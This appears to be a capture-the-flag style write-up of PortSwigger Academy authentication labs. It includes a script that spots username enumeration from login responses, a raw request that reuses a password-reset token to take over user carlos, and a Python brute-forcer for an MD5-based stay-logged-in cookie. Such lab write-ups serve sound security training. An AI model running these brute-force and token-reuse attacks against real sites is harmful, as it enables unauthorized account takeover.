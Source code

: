 ### *Measuring responses from brute forcing*
I used a list of usernames to brute force a login screen, which had very subtle differences in responses. Then I used a python script to determine which responses had a different line in the HTML, specifically the warning stating if the username or password is incorrect. Here is the most common response from an incorrect username and password combination:
```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3232

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>Username enumeration via subtly different responses</title>
    </head>
    <body>
        <script>fetch('/analytics?id=393391669')</script>
        <script src="/resources/labheader/js/labHeader.js"></script>
        <div id="academyLabHeader">
            <section class='academyLabBanner'>
                <div class=container>
                    <div class=logo></div>
                        <div class=title-container>
                            <h2>Username enumeration via subtly different responses</h2>
                            <a class=link-back href='https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-subtly-different-responses'>
                                Back&nbsp;to&nbsp;lab&nbsp;description&nbsp;
                                <svg version=1.1 id=Layer_1 xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' x=0px y=0px viewBox='0 0 28 30' enable-background='new 0 0 28 30' xml:space=preserve title=back-arrow>
                                    <g>
                                        <polygon points='1.4,0 0,1.2 12.6,15 0,28.8 1.4,30 15.1,15'></polygon>
                                        <polygon points='14.3,0 12.9,1.2 25.6,15 12.9,28.8 14.3,30 28,15'></polygon>
                                    </g>
                                </svg>
                            </a>
                        </div>
                        <div class='widgetcontainer-lab-status is-notsolved'>
                            <span>LAB</span>
                            <p>Not solved</p>
                            <span class=lab-status-icon></span>
                        </div>
                    </div>
                </div>
            </section>
        </div>
        <div theme="">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href=/>Home</a><p>|</p>
                            <a href="/my-account">My account</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <h1>Login</h1>
                    <section>
                        <p class=is-warning>Invalid username or password.</p>
                        <form class=login-form method=POST action="/login">
                            <label>Username</label>
                            <input required type=username name="username" autofocus>
                            <label>Password</label>
                            <input required type=password name="password">
                            <button class=button type=submit> Log in </button>
                        </form>
                    </section>
                </div>
            </section>
            <div class="footer-wrapper">
            </div>
        </div>
    </body>
</html>
```

I then saved each of the 101 responses to a folder, and used a python script to sort through each file, and if the warning message doesn't match `<p class=is-warning>Invalid username or password.</p>` then add `-different` to the end of the file name.
```
import os
from pathlib import Path

def rename_if_warning_different(directory):
    warning_message = "<p class=is-warning>Invalid username or password.</p>"

    for filename in os.listdir(directory):
        filepath = os.path.join(directory, filename)
        if os.path.isfile(filepath):
            with open(filepath, 'r', encoding='utf-8') as file:
                content = file.read()

            # Proceed only if the warning message does not match exactly
            if warning_message not in content:
                # Define new file path with '-different' appended before the file extension
                base, extension = os.path.splitext(filepath)
                new_filepath = f"{base}-different{extension}"

                # Check for existence to avoid overwriting and adjust name if necessary
                counter = 1
                original_new_filepath = new_filepath
                while Path(new_filepath).exists():
                    new_filepath = f"{original_new_filepath}-{counter}{extension}"
                    counter += 1

                # Rename the file
                os.rename(filepath, new_filepath)
                print(f"Renamed '{filename}' to '{Path(new_filepath).name}'")

# Example usage
directory_path = '/path/to/your/directory'  # Replace this with your actual directory path
rename_if_warning_different(directory_path)
```

This allowed me to determine that the file containing the warning message `<p class=is-warning>Invalid username or password </p>` was a correct username, as the typical w`<p class=is-warning>Invalid username or password.</p>`. I then used the options in the burp intruder to look for that regex and flag it, giving me the username `am`. I then brute forced that username with a list of passwords and I was able to access the account.
### *Password reset broken authentication*
If there is a functionality to reset your password, there is usually a token generated when creating the link: `https://0a9400e5030f0cb58188d90d000700e3.web-security-academy.net/forgot-password?temp-forgot-password-token=hg6iafjltdltx1cpn6pc8hs0u8o49kz0`. 

The token should be deleted immediately after resetting your password, if it still exists in the back-end after a password reset, try to use the username of another user in the reset request. My username was wiener, and the victim's username was carlos. 
```
POST /forgot-password?temp-forgot-password-token=hg6iafjltdltx1cpn6pc8hs0u8o49kz0 HTTP/2
Host: 0a9400e5030f0cb58188d90d000700e3.web-security-academy.net
Cookie: session=X7jMGClUWZy1uN6bDT6ciZdWooj66DNU
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a9400e5030f0cb58188d90d000700e3.web-security-academy.net/forgot-password?temp-forgot-password-token=hg6iafjltdltx1cpn6pc8hs0u8o49kz0
Content-Type: application/x-www-form-urlencoded
Content-Length: 123
Origin: https://0a9400e5030f0cb58188d90d000700e3.web-security-academy.net
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

temp-forgot-password-token=hg6iafjltdltx1cpn6pc8hs0u8o49kz0&username=carlos&new-password-1=password&new-password-2=password
```
### *Brute forcing stay logged in cookie*
This application is vulnerable to brute forcing stay-logged-in cookies because the cookie is never deleted and is based on `useranme:md5hashed(password)`. This can be easily brute forced through this python script
```
import base64
import requests
import hashlib

# Function to hash password with MD5
def md5_hash(string):
    hash_object = hashlib.md5(string.encode())
    return hash_object.hexdigest()

# The URL that will alert me if the cookie is working
url = "https://0a72007d03e792b1812b5cd000b20073.web-security-academy.net/my-account?id=carlos"

# Known username (assuming it's part of the decoded cookie content)
username = "carlos"

# Path to your list of passwords to test
password_file = "./passwords.txt"

# Read the list of passwords

with open(password_file, "r") as file:
    passwords = file.readlines()

for password in passwords:
    password = password.strip()
    # Hash the password using MD5
    hashed_password = md5_hash(password)
    # Encode the username:hashed_password pair in Base64
    encoded_credential = base64.b64encode(f"{username}:{hashed_password}".encode()).decode()
    # Set the cookie with the new encoded value
    cookies = {"stay-logged-in": encoded_credential}
    
    # Make the request
    response = requests.get(url, cookies=cookies)
    
    # Check the response to see if the brute force attempt was successful
    if "My account" in response.text and "change-email" in response.text:
        print(f"Success with password: {password}")
        break
    else:
        print(f"Failed with password: {password}")
```

The `encoded_credential` works by taking a username and a hashed password, combines them into a single string with a colon separator, encodes that string into bytes, then encodes those bytes into a Base64 representation, and finally decodes that back into a UTF-8 string for use in web communications. This process ensures that the credential data can be safely transmitted over HTTP headers or stored in cookies.

When the correct password in the `passwords.txt` file has been found, it will alert me, and I have successfully brute forced the user's password through this vulnerable stay-logged-in cookie.